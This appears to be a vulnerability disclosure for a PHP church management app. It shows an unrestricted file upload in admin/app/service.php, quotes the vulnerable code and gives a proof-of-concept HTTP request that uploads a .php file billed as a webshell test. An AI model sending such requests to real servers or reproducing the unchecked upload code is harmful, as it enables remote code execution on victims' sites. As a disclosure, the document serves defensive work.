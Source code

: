 ### Vulnerability file address

In line 11 of `church/admin/app/service.php`, `$filepath = "../../assets/images/" . htmlspecialchars($_FILES["photo"]["name"], ENT_QUOTES, 'UTF-8');`, the file extension is not whitelisted. Following up to line 13, `move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)`, the file is uploaded to the `church/assets/images/` directory.

```php
<?php
session_start();
include '../../assets/constant/config.php';

try {
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (isset($_POST['submit'])) {

        $filepath = "../../assets/images/" . htmlspecialchars($_FILES["photo"]["name"], ENT_QUOTES, 'UTF-8');

        if (move_uploaded_file($_FILES["photo"]["tmp_name"], $filepath)) {
            $img = htmlspecialchars($_FILES["photo"]["name"], ENT_QUOTES, 'UTF-8');
        } else {
            echo "Error !!";
        }
```

### POC

```http
POST /church/admin/app/service.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 295

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="submit"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo";filename="6666.php"

<?php echo "this is webshell7777777 test"; ?>
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--

```

### Attack results pictures

![image-20250221165804845](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211658876.png)



![image-20250221165811590](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211658618.png)